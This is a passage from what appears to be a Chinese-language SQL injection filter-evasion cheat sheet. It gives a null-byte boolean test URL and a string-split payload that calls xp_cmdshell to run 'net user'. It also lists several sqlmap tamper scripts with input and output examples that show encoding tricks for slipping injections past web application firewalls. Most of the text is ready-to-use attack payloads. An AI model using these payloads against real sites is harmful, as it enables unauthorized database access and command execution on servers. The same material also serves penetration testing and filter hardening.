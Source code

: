 5. NULL字节
```
xx.asp?0day5.com=%00.&xw_id=69%20 and 1=1和xx.asp?0day5.com=%00.&xw_id=69%20 and 1=2
```
6. 关键字拆分
```
cnseay.com/1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
```
### sqlmap 自带的绕过脚本 --tamper详解  

    (1) apostrophemask.py UTF-8编码 
    Example: 
    Input: AND '1'='1' 
    Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87 

    (2) apostrophenullencode.py unicode编码 
    Example: 
    Input: AND '1'='1' 
    Output: AND %00%271%00%27=%00%271%00%27 

    (3) appendnullbyte.py 添加%00   
    Example:  
    Input: AND 1=1  
    Output: AND 1=1%00  
    Requirement:  
    Microsoft Access  

    (4) base64encode.py base64编码 
    Example: 
    Input: 1' AND SLEEP(5)# 
    Output: MScgQU5EIFNMRUVQKDUpIw` 

    (5) between.py 以”not between”替换”>“ 
    Example: 
    Input: 'A > B' 
    Output: 'A NOT BETWEEN 0 AND B' 

    (6) bluecoat.py 以随机的空白字符替代空格，以”like”替代”=“ 
    Example: 
    Input: SELECT id FROM users where id = 1 
    Output: SELECT%09id FROM users where id LIKE 1 
    Requirement: 
    MySQL 5.1, SGOS 

    (7) chardoubleencode.py 双重url编码 
    Example: 
    Input: SELECT FIELD FROM%20TABLE 
    Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545

    (8) charencode.py url编码 
    Example: 
    Input: SELECT FIELD FROM%20TABLE 
    Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
